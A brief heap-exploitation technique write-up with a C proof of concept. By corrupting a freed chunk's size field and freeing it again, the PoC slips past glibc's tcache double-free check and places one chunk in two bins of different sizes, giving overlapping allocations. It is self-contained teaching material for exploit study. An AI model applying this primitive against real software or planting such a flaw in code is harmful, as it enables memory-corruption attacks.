 ## tcache size double

**Purpose**: The ability to put 1 chunk to different tcache bin size.

**Details**: Since the tcache double free check only check the `tcache key`, and this check only check for the same size bin!

## PoC

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    long *ptr = malloc(0x78);

    free(ptr); // put ptr into tcache

    /* VULN HERE */
    ptr[-1] = 0x21; // Change the size of the chunk
    free(ptr); // double free the same chunk
    /* VULN HERE */

    // Now tcache has two chunks 0x80 and 0x20 with the same address

    long *a = malloc(0x18); // get the 0x20 chunk
    long *b = malloc(0x78); // get the 0x78 chunk

    printf("a: %p\n", a);
    printf("b: %p\n", b);

    return 0;
}
```
